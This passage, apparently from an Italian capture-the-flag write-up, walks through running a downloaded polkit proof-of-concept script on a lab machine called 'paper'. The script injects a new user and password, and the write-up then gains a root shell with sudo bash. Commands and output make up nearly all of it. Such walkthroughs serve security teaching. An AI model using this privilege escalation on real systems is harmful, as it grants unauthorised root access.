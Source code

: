 ```bash

2023-10-31 08:09:35 (654 KB/s) - ‘poc.sh’ saved [9627/9627]

[dwight@paper ~]$ ls
bot_restart.sh  hubot  poc.sh  sales  user.txt
[dwight@paper ~]$ chmod +x poc.sh
[dwight@paper ~]$ ls
bot_restart.sh  hubot  poc.sh  sales  user.txt
[dwight@paper ~]$
```

Possiamo utilizzare le opzioni di flag disponibili nello script di prova per impostare il nome utente e la password desiderati per il nuovo utente oppure modificare direttamente il nome utente e la password codificati nel codice PoC stesso. 

```bash
[dwight@paper ~]$ ./poc.sh -u=xrabbit -p=test123

[!] Username set as : xrabbit
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username xrabbit...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username xrabbit  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - xrabbit
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$

```

l' output ci dice che è stato creato un nuovo utente con le credenziali specificate. Confermiamolo passando al nuovo utente, eseguiamo sudo bash e siamo root

```bash
[dwight@paper ~]$ su xrabbit
Password:
[xrabbit@paper dwight]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for xrabbit:
[root@paper dwight]#
```
